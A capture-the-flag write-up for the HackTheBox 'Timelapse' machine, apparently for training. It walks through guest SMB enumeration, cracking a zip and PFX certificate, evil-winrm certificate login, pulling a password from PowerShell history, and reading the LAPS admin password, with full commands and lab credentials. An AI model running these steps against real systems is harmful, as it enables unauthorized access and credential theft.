# Timelapse -- HackTheBox (write-up)

**Difficulty:** Easy
**Box:** Timelapse (HackTheBox)
**Author:** dsec
**Date:** 2025-09-08

---

## TL;DR

### SMB guest access to a zip containing a PFX cert. Cracked both, used cert-based WinRM auth. PowerShell history leaked creds for svc_deploy. LAPS Readers group -> local admin password -> DA.
---
## Target info

- Host: `10.129.98.245`
- Domain: `timelapse.htb`
- Services discovered: `53/tcp (dns)`, `88/tcp (kerberos)`, `445/tcp (smb)`, `5986/tcp (winrm-ssl)`
---
## Enumeration

```bash
nmap -p53,88,135,139,389,445,464,593,636,5986,9389,49667,49673,49674,49698,65427 -sCV 10.129.98.245 -vvv -Pn
```





Checked SMB shares with guest access:

```bash
nxc smb 10.129.227.113 -u 'guest' -p '' --shares
```



```bash
smbclient.py timelapse.htb/guest:''@10.129.227.113
```



---
## Initial access

Cracked the zip:

```bash
zip2john winrm_backup.zip > zip.hash
```



Unzipped -- found a PFX file:



Cracked the PFX:

```bash
pfx2john legacyy_dev_auth.pfx > pfx.hash
```



Extracted the private key and certificate:

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key
```



Password is `thuglegacy`. PEM pass phrase can be anything (4+ chars) -- used `test`.

```bash
openssl rsa -in legacyy_dev_auth.key -out legacyy_dev_auth_decoded.key
```



```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
```



Connected via WinRM with cert auth:

```bash
evil-winrm -i 10.129.98.245 -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt
```



---
## Lateral movement

Checked PowerShell history:

```
type C:\users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```



Found creds and connected:

```bash
evil-winrm -i 10.129.98.245 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```

---
## Privilege escalation

```bash
net user svc_deploy
```



svc_deploy is in `LAPS_Readers` -- can read the local admin password managed by LAPS:

```powershell
Get-ADComputer DC01 -property 'ms-mcs-admpwd'
```



Got: `l2H.h7Ao4m04tk7z+0v5LB.[`

```bash
evil-winrm -i 10.129.98.245 -S -u administrator -p 'l2H.h7Ao4m04tk7z+0v5LB.['
```

Note: root.txt is in `Users\TRX` because LAPS rotates the admin password -- need a static user for persistence.

---
## Lessons & takeaways

- PFX files can be cracked with pfx2john and used for cert-based WinRM auth
- Always check PowerShell history (`ConsoleHost_history.txt`) for leaked credentials
- LAPS_Readers membership = local admin password via `ms-mcs-admpwd` attribute
---
